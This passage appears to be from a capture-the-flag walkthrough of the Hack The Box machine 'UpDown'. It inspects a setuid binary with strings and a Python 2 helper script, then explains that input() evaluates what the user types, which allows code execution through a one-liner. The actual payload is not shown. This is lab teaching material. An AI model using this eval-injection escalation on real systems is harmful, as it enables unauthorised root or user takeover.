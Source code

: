 Now I see the file siteisup content →

```bash
www-data@updown:/home/developer/dev$ strings siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
puts
setresgid
setresuid
system
getegid
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
crtstuff.c
...
...
```
{: .nolineno}
{: .nolineno}

Lets see the `siteisup_test.py` file →

```bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
www-data@updown:/home/developer/dev$
```
{: .nolineno}
{: .nolineno}

I tried the simple URL and I get this error .That’s because in Python2, `input` takes the input and passes it to `eval`, and my input isn’t valid python. I can pass it a one liner that will execute and get execution:

```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:http://10.10.16.10/
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1
    http://10.10.16.10/
        ^
SyntaxError: invalid syntax
www-data@updown:/home/developer/dev$
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application
```